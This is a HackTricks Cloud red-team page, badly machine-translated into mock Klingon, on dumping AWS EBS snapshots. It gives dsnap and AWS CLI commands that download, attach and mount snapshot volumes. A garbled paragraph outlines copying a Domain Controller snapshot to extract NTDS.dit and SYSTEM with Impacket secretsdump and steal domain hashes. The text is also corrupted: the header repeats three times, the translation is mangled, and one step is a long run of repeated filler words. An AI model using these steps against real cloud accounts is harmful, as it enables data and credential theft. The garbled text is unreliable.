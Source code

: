 # AWS - EBS Snapshot Dump

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

### Checking a snapshot locally

### tlhIngan Hol translation:

# AWS - EBS Snapshot Dump

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>! </strong><a href="https://training.hacktricks.xyz/courses/arte"><strong>Learn AWS hacking from zero to hero with</strong></a></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

### Checking a snapshot locally

### tlhIngan Hol translation: 

# AWS - EBS Snapshot Dump

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>! </strong><a href="https://training.hacktricks.xyz/courses/arte"><strong>Learn AWS hacking from zero to hero with</strong></a></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

### Checking a snapshot locally
```bash
# Install dependencies
pip install 'dsnap[cli]'
brew install vagrant
brew install virtualbox

# Get snapshot from image
mkdir snap_wordir; cd snap_workdir
dsnap init
## Download a snapshot of the volume of that instance
## If no snapshot existed it will try to create one
dsnap get <instance-id>
dsnap --profile default --region eu-west-1 get i-0d706e33814c1ef9a
## Other way to get a snapshot
dsnap list #List snapshots
dsnap get snap-0dbb0347f47e38b96 #Download snapshot directly

# Run with vagrant
IMAGE="<download_file>.img" vagrant up #Run image with vagrant+virtuabox
IMAGE="<download_file>.img" vagrant ssh #Access the VM
vagrant destroy #To destoy

# Run with docker
git clone https://github.com/RhinoSecurityLabs/dsnap.git
cd dsnap
make docker/build
IMAGE="<download_file>.img" make docker/run #With the snapshot downloaded
```
For more info on this technique check the original research in [https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/](https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/)

You can do this with Pacu using the module [ebs\_\_download\_snapshots](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#ebs\_\_download\_snapshots)

### Checking a snapshot in AWS

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id snap-0b49342abd1bdcb89
```
{% endcode %}

**Qa'vamDaq EC2 VM vItlhutlh** (vItlhutlh backup copy laH):

Step 1: **'ej** 'ej **'ej** type **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **'ej** SIQ **
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2 --snapshot-id <snap-0b49342abd1bdcb89>

# Attach new volume to instance
aws ec2 attach-volume --device /dev/sdh --instance-id <INSTANCE-ID> --volume-id <VOLUME-ID>

# mount the snapshot from within the VM

sudo file -s /dev/sdh
/dev/sdh: symbolic link to `xvdh'

sudo file -s /dev/xvdh
/dev/xvdh: x86 boot sector; partition 1: ID=0xee, starthead 0, startsector 1, 16777215 sectors, extended partition table (last)\011, code offset 0x63

lsblk /dev/xvdh
NAME     MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
xvdh     202:112  0    8G  0 disk
├─xvdh1  202:113  0  7.9G  0 part
├─xvdh14 202:126  0    4M  0 part
└─xvdh15 202:127  0  106M  0 part

sudo mount /dev/xvdh1 /mnt

ls /mnt
```
{% endcode %}

### QI'ya' Qogh

AWS lo'laHbe'chugh **`EC2:CreateSnapshot`** permission vaj lo'laHbe'chugh **Domain Controller** snapshot **ghItlh** vaj **Impacket's secretsdump project** vay' lo'laHbe'chugh **NTDS.dit vaj SYSTEM** registry hive file **export** vay' vaj **instance** vaj **mount** vay' **snapshot** vaj **creating** vaj **user** **domain** **hashes** **steal** vay' vaj.

attack **automate** vay' **tool** vaj **use** vay' [https://github.com/Static-Flow/CloudCopy](https://github.com/Static-Flow/CloudCopy) vaj **previous techniques** vaj **one** **use** vay' **could**.

# References
* https://devopscube.com/mount-ebs-volume-ec2-instance/

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
